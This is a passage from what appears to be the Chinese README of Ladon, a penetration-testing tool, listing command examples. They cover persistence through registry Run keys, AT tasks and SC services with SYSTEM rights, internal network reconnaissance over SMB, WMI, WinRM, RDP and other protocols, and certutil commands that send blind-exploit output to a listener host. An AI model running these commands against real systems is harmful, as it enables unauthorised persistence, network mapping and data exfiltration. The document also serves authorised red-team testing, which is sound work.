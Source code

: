 ```

##### 133 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe

##### 134 AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe
Ladon at c:\123.exe gui

##### 135 SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe
Ladon sc c:\123.exe gui
Ladon sc c:\123.exe auto ServerName


### 系统信息探测
##### 136 Snmp协议探测操作系统、设备等信息
Ladon 192.168.1.8/24 SnmpScan

##### 137 Nbt协议探测Windows主机名、域、用户
Ladon 192.168.1.8/24 NbtInfo

##### 138 Smb协议探测Windows版本、主机名、域
Ladon 192.168.1.8/24 SmbInfo

##### 139 Wmi协议探测Windows版本、主机名、域
Ladon 192.168.1.8/24 WmiInfo

##### 140 Mssql协议探测Windows版本、主机名、域
Ladon 192.168.1.8/24 MssqlInfo

##### 141 Winrm协议探测Windows版本、主机名、域
Ladon 192.168.1.8/24 WinrmInfo

##### 142 Exchange探测Windows版本、主机名、域
Ladon 192.168.1.8/24 ExchangeInfo

##### 143 Rdp协议探测Windows版本、主机名、域
For单线程: Ladon 192.168.1.8/24 RdpInfo f=1


### 其它功能
##### 144 Win2008一键启用.net 3.5
Ladon EnableDotNet

##### 145 获取内网站点HTML源码
Ladon gethtml http://192.168.1.1

##### 146 一键迷你WEB服务器
Ladon web 80
Ladon web 80 dir
获取外网IP(VPS上启动WEB,目标访问ip.txt或ip.jpg)
http://192.168.1.8/ip.txt

##### 147 getstr/getb64/debase64(无回显漏洞回显结果)
监听 Ladon web 800
提交 返回明文
certutil.exe -urlcache -split -f http://192.168.1.8:800/getstr/test123456
Base64加密结果
certutil.exe -urlcache -split -f http://192.168.1.110:800/getbase64/k8gege520
Base64结果解密
certutil.exe -urlcache -split -fhttp://192.168.1.110:800/debase64/azhnZWdlNTIw

##### 148 Shiro插件探测
```